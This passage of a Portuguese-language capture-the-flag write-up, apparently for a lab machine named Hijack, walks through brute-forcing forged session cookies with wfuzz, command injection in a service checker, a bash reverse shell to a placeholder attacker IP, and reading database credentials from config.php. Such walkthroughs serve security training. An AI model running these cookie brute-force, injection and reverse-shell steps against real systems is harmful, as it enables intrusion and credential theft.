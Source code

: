 ```python
    resultado = base64.b64encode(combinado.encode('utf-8'))

    # Imprimir o hash
    print(resultado.decode('utf-8'))
```

Execução:

```bash
python3 bruteforce.py > cookies.txt
```

Brute-force com wfuzz:
```bash
$wfuzz -u http://$ALVO/administration.php -w cookies.txt -X POST -b 'PHPSESSID=FUZZ' --hh 51

Total requests: 150

===================================================================
ID           Response   Lines    Word     Chars       Payload                
===================================================================

000000082:   200        42 L     66 W     864 Ch      "YWRtaW46ZDY1NzNlZDczOW
                                                      FlN2ZkZmIzY2VkMTk3ZDk0O
                                                      DIwYTU="
```

🎯 Cookie válido encontrado → acesso ao painel como **admin**.  

---

## 💣 Command Injection

No painel, havia o **Service Status Checker**.
Teste de injection:

```bash
&id
```

Output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Reverse shell (como `nc` não estava instalado, usei bash):
```bash
$(bash -c 'bash -i >& /dev/tcp/ATAQUE_IP/1234 0>&1')
```

Listener:
```bash
$nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.6.151 36206
bash: cannot set terminal process group (1250): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Hijack:/var/www/html$ 

www-data@Hijack:/var/www/html$ cat config.php	
cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "N3v3rG0nn4G1v3Y0uUp";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);
```